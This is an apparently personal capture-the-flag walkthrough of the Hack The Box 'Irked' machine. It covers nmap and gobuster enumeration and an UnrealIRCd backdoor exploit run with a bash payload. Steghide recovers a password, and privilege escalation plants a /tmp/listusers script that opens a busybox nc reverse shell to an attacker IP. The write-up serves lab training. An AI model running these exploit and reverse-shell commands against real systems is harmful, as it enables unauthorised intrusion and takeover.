- Machine Name: Irked
- OS Type: Linux
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```php
# Nmap 7.95 scan initiated Fri May  2 23:42:42 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.10.117
Nmap scan report for 10.10.10.117
Host is up, received echo-reply ttl 63 (0.29s latency).
Scanned at 2025-05-02 23:42:43 EDT for 154s
Not shown: 65335 closed tcp ports (reset), 193 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAI+wKAAyWgx/P7Pe78y6/80XVTd6QEv6t5ZIpdzKvS8qbkChLB7LC+/HVuxLshOUtac4oHr/IF9YBytBoaAte87fxF45o3HS9MflMA4511KTeNwc5QuhdHzqXX9ne0ypBAgFKECBUJqJ23Lp2S9KuYEYLzUhSdUEYqiZlcc65NspAAAAFQDwgf5Wh8QRu3zSvOIXTk+5g0eTKQAAAIBQuTzKnX3nNfflt++gnjAJ/dIRXW/KMPTNOSo730gLxMWVeId3geXDkiNCD/zo5XgMIQAWDXS+0t0hlsH1BfrDzeEbGSgYNpXoz42RSHKtx7pYLG/hbUr4836olHrxLkjXCFuYFo9fCDs2/QsAeuhCPgEDjLXItW9ibfFqLxyP2QAAAIAE5MCdrGmT8huPIxPI+bQWeQyKQI/lH32FDZb4xJBPrrqlk9wKWOa1fU2JZM0nrOkdnCPIjLeq9+Db5WyZU2u3rdU8aWLZy8zF9mXZxuW/T3yXAV5whYa4QwqaVaiEzjcgRouex0ev/u+y5vlIf4/SfAsiFQPzYKomDiBtByS9XA==
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDDGASnp9kH4PwWZHx/V3aJjxLzjpiqc2FOyppTFp7/JFKcB9otDhh5kWgSrVDVijdsK95KcsEKC/R+HJ9/P0KPdf4hDvjJXB1H3Th5/83gy/TEJTDJG16zXtyR9lPdBYg4n5hhfFWO1PxM9m41XlEuNgiSYOr+uuEeLxzJb6ccq0VMnSvBd88FGnwpEoH1JYZyyTnnbwtBrXSz1tR5ZocJXU4DmI9pzTNkGFT+Q/K6V/sdF73KmMecatgcprIENgmVSaiKh9mb+4vEfWLIe0yZ97c2EdzF5255BalP3xHFAY0jROiBnUDSDlxyWMIcSymZPuE1N6Tu8nQ/pXxKvUar
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFeZigS1PimiXXJSqDy2KTT4UEEphoLAk8/ftEXUq0ihDOFDrpgT0Y4vYgYPXboLlPBKBc0nVBmKD+6pvSwIEy8=
|   256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC6m+0iYo68rwVQDYDejkVvsvg22D8MN+bNWMUEOWrhj
80/tcp    open  http    syn-ack ttl 63 Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind syn-ack ttl 63 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100024  1          43587/tcp6  status
|_  100024  1          56405/udp6  status
6697/tcp  open  irc     syn-ack ttl 63 UnrealIRCd
8067/tcp  open  irc     syn-ack ttl 63 UnrealIRCd
38591/tcp open  status  syn-ack ttl 63 1 (RPC #100024)
65534/tcp open  irc     syn-ack ttl 63 UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May  2 23:45:17 2025 -- 1 IP address (1 host up) scanned in 155.32 seconds
```

## Enumeration

### Port 80/HTTP

i’ll start enumeration from port 80 http website



let’s check web technologies used in website using whatweb



let’s check if any directory and files found using gobuster



oh we found interesting folder `/manual/` 



looks like default apache server page let’s deep dive into this 

```php
gobuster dir -u http://10.10.10.117/manual/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```



nothing interesting found here, let’s move to another port and service

### Port 6697,8067,65534/IRC (UnrealIRCd)

i found some IRC ports are open and running service called UnrealIRCd, i searched on google for known exploit and i found https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor 

let’s check if the running service is vulnerable to this exploit or not, download the [exploit.py](http://exploit.py) and add the LHOST and LPORT of your machine and start netcat listener `rlwrap -r nc -nvlp 443` 

run the exploit 

```php
python3 exploit.py -payload bash 10.10.10.117 8067
```

i first tried port 6697 but was not working, then i tried another port 8067 and i got the shell.



let’s start our enumeration on the system i found the interesting .backup file inside the Documents inside the Documents folder of djmardov user’s home directory



let’s read the file 



i tried this password djmardov user but it was not working, i dind;t get what it is meant for so i took small hint, and i found that it is password for stegnography image, we found the image in webpage let’s download it to kali machine

i used steghide command to extract data from the image

```php
steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
```



let’s read the contents of pass.txt



looks like the password of the djmardov user





i found weird `viewuser` binary let’s try to execute it



looks like it is trying to execute /tmp/listusers but it is showing the file is not found

what if we just create a listusers file that contains reverse shell code in /tmp folder and then simply run the binary

1. create a /tmp/listusers file with following code

```php
#!/bin/bash
busybox nc 10.10.14.17 445 -e /bin/bash
```

make it executable

```php
chmod +x /tmp/listusers
```

start the listener on port 445

run the binary `viewuser` 

